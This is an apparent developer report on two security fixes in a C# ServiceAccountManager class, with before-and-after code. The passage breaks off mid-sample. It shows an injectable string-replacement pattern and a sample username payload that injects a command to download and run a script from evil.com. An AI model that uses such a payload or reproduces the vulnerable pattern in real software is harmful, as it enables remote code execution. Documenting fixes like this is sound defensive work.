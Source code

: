 # Critical Security Fixes - Implementation Complete ✅

**Date:** October 8, 2025  
**Status:** ✅ BOTH CRITICAL ISSUES FIXED  
**Files Modified:** `src/ZLFileRelay.ConfigTool/Services/ServiceAccountManager.cs`

---

## Summary

Both critical security vulnerabilities have been successfully fixed:

✅ **CRITICAL-1:** PowerShell injection vulnerability eliminated  
✅ **CRITICAL-2:** Password command-line exposure eliminated

---

## CRITICAL-1: PowerShell Injection Fix

### What Was Changed

**File:** `ServiceAccountManager.cs`  
**Method:** `GrantLogonAsServiceRightAsync(string username)`  
**Lines:** 132-269

### Before (VULNERABLE)
```csharp
// String replacement - vulnerable to injection
var psScript = $@"
param($UserName)
$ntprincipal = new-object System.Security.Principal.NTAccount $UserName
# ... rest of script ...
";

var result = await _psRemoting.ExecuteScriptAsync(
    psScript.Replace("$UserName", $"'{username}'"));  // ❌ INJECTION RISK
```

**Vulnerability:** An attacker could inject PowerShell commands through the username parameter:
```
Username: test'; Invoke-WebRequest http://evil.com/backdoor.ps1 | iex; #
```

### After (SECURE)
```csharp
// Define function with proper parameter declaration
var functionDefinition = @"
function Grant-ServiceLogonRight {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory=$true)]
        [ValidateNotNullOrEmpty()]
        [string]$UserName
    )
    # ... implementation ...
}
";

// Load function
await _psRemoting.ExecuteScriptAsync(functionDefinition);

// Execute with safe parameter passing
var parameters = new Dictionary<string, object>
{
```